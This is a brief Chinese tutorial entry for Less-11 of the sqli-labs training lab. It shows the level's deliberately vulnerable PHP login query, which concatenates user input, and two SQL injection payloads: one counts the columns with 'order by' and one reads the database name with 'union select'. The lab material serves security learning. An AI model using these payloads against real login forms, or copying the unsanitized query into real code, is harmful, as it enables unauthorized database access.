 

## Less-11

从以下的php源码可看出, 要在账号或密码输入框进行sql注入, 注释符号要改成#

```
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
	$result=mysql_query($sql);
	$row = mysql_fetch_array($result);

	if($row)
	{
		echo 'Your Login name:'. $row['username'];
		echo 'Your Password:' .$row['password'];
  	}
	else  
	{
		print_r(mysql_error());	
		echo "</font>";  
	}
```



**获取字段数:** `1' order by 2#`

**获取当前数据库: **`1' union select 1,database()#`

后续的步骤省略了

<img src="sqli-labs/1779065-20210223104132238-815458054.png" style="zoom:50%;" />	
